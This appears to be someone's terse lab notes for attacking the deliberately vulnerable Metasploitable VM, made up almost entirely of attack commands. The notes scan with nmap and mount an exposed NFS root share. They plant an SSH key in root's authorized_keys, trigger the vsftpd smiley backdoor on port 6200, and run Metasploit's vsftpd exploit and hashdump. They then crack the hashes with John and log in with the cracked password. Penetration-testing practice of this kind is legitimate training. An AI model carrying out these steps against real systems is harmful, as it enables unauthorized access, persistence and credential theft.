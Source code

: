 - ip a    
- sudo nmap -n -Pn -sS [ip adress here] --open    

- sudo nmap -n -Pn -sV [ip adress here] --open        

- sudo rlogin -l root [ip adress here]      

- 2049 nfs file sharing stuff   

- sudo rpcinfo -p [ip adress here]    

- sudo showmount -h
- sudo showmount -e [ip adress here]
- / * means everything    

- mkdir /tmp/metasploit
- sudo mount -t nfs [ip adress here]:/  /tmp/metasploit 
- [generate public ssh key](https://git-scm.com/book/en/v2/Git-on-the-Server-Generating-Your-SSH-Public-Key)    
- sudo cat ~/.ssh/id_rsa.pub >> /tmp/metasploit/root/.ssh/authorized_keys   
- sudo cat ~/.ssh/id_rsa.pub  
- ssh root@ipaddress
- put your public key in the file and save it
- ssh root@ipaddress - now it works
- sudo umount /tmp/metasploit
- telnet [ip adress here] 21(this is port) - user asd:)metasploitable login: (this smile triggers backdoor for 6200port)
- pass asd
- telnet [ip adress here] 6200(this is port) 
- ls;
- whoami;
- sudo msfconsole
- search ftp
- search VSFTPD
- use exploit/unix/ftp
- show options
- set rhosts [ip adress here]
- run[attack]
- hashdump
- use post/linux/gather/hashdump
- show options
- set session 1
- run
- sudo john linux-hashes-password.txt --show
sys:batman:3:3....
- ssh sys@[ip adress here]
- pass = batman
- 
- 
- 
- 
- 
